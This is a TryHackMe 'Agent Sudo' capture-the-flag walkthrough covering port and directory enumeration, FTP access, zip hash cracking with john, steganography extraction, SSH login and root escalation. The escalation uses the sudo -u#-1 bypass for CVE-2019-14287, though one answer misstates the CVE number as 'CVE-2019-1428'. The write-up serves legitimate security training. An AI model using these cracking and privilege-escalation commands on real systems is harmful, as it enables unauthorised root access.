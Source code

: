 

# Agent Sudo

room：https://tryhackme.com/room/agentsudoctf

### 1.Enumerate

1.nmap and gobuster

```
nmap -sC -sV(-sS -sV) MACHINE_IP
gobuster dir -u MACHINE_IP  -w /usr/share/wordlists/dirb/common.txt -t 50 
```

How many open ports?

```
3
```

How you redirect yourself to a secret page?

```
user-agent
```

![image-20221127152826263](https://user-images.githubusercontent.com/115979342/204271810-8f0f1119-68c4-41c0-95d4-79c83ca5e169.png)


What is the agent name?

```
chris
```



### 2.Hash cracking and brute-force

FTP password

<img width="912" alt="image-20221127152929563" src="https://user-images.githubusercontent.com/115979342/204272024-61acf8e8-2b2a-4b85-ab59-33d037bdbc44.png">

```
*
```

use ftp login to get file



![image-20221127152956848](https://user-images.githubusercontent.com/115979342/204272159-f0423d82-e7c0-441c-ac07-de4ca07ba186.png)


```bash
mget *
```

To_agentJ.txt useful message:

```bash
root@aoiri:~/tryhackme/agentsudo# cat To_agentJ.txt 
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

use binwalk

![image-20221127153116310](https://user-images.githubusercontent.com/115979342/204272329-19e40367-79c7-487a-b42f-d47c8f430b7b.png)

```
binwalk cutie.png -e
```

get the zip file and use zip2john crack the zip pasword:

```bash
zip2john 8702.zip > zip.hash
john zip.hash

```

![image-20221127153312804](https://user-images.githubusercontent.com/115979342/204272655-bf40f4ba-f49b-4699-9d90-3b351db44598.png)

Zip file password

```
*
```

steg password

txt file has the encrypted string "QXJlYTUx"

use magic in [CyberChef](https://gchq.github.io/CyberChef/)

![image-20221127153925077](https://user-images.githubusercontent.com/115979342/204272784-664dbc30-5233-437a-b0c4-6b7a0b99f6f4.png)

```
*
```

Who is the other agent (in full name)?

```bash
steghide extract -sf cute-alien.jpg 
```

![image-20221127155238827](https://user-images.githubusercontent.com/115979342/204272915-78b597d0-de7c-4163-8bb0-534cfadc5060.png)

```bash
root@aoiri:~/tryhackme/agentsudo/tmp# cat message.txt 
Hi james,

Glad you find this message. Your login password is ************

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
root@aoiri:~/tryhackme/agentsudo/tmp#
```

```
james
```

SSH password

```
************
```

use ssh login

### 3.Capture the user flag

just cat.

What is the user flag?

```
*
```

What is the incident of the photo called?

`sudo scp james@10.10.235.17:Alien_autospy.jpg ~/`

Reverse image and Foxnews.

```
Roswell alien autopsy
```



### 4.Privilege escalation


CVE number for the escalation  (Format: CVE-xxxx-xxxx)

use `sudo -l`

![image-20221128111736314](https://user-images.githubusercontent.com/115979342/204273027-50810959-1e0b-434d-9720-7ef5428b7efb.png)

use bash shell in gtfbins they are not working.

![image-20221128111812736](https://user-images.githubusercontent.com/115979342/204273141-18004205-0b89-40b6-80e2-7fa5cd1ce89c.png)

search on google about exploit

https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulner

find it's sudo1.8.27 exploit

```
CVE-2019-1428
```

What is the root flag?

https://www.exploit-db.com/exploits/47502

use this to Privilege escalation

```
sudo -u#-1 /bin/bash
```

cat flag:

```
*
```

(Bonus) Who is Agent R?

```
Des...
```





























